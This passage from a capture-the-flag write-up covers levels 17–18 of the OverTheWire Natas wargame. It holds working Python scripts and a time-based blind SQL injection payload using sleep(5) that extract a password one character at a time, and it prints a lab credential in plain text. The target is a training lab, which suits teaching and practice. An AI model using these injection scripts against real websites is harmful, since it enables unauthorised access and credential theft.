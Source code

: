 ```python
		response = session.get(url)
		if("African" in response.text): #When we input nothing, the first word that pops up is African so let's use it as a checker
			print(f"Tried : {char}")
		else:
			password = password + char
			print(f'found a match at position {count} : {password}')
			found = True
			break
	if(found == False):
		print(f'Stopped: no match at position {count}')
		break
print(f'Final password : {password}')
```

After executing the code and waiting for a while, we get our password.

![alt text](NatasScreenshots/17.png)

# Level 18

This level is similar to level 15. But if you check the source code carefully, you'd notice that the echo command lines are commented which means we get no response wether the typed username exists or no and thus, we can't really tell if our blind guess is correct or not.

What we can do here is rely on timing ! SQL has a built-in function that holds the code for some amount of time called **sleep()**. We can inject an sql querry using this function with this format :

```sql
SELECT * from users where username = "natas18" and binary substring(password, 1, {count})={password}{char} and sleep(5) #
```

and check if our guess is true by checking the response time of the session which depends on the time the querry took:

- if the blind guess is true, the substringing comparasion will be true and it will pass to the sleep function which will take 5 seconds before finishing the querry and thus the response time of the session will exceed 5 seconds.
- if the blind guess is false, the substringing comparasion will be false and since we are working with AND keyword, the querry will exit immediatly without executing the sleep function and thus the response time will be way shorter than 5 seconds.

Let's build the script.

```python
import requests
import string

charset = string.ascii_letters + string.digits
password_length = 32
password = ""

session = requests.Session()
session.auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")

for count in range(1, password_length + 1):
   found = False
   for char in charset:
       payload = f'natas18" and binary substring(password,1,{count})="{password}{char}" and sleep(5) # '
       data = {"username": payload}
       response = session.post("http://natas17.natas.labs.overthewire.org/index.php", data=data)

       if response.elapsed.total_seconds() > 4.9:
           password += char
```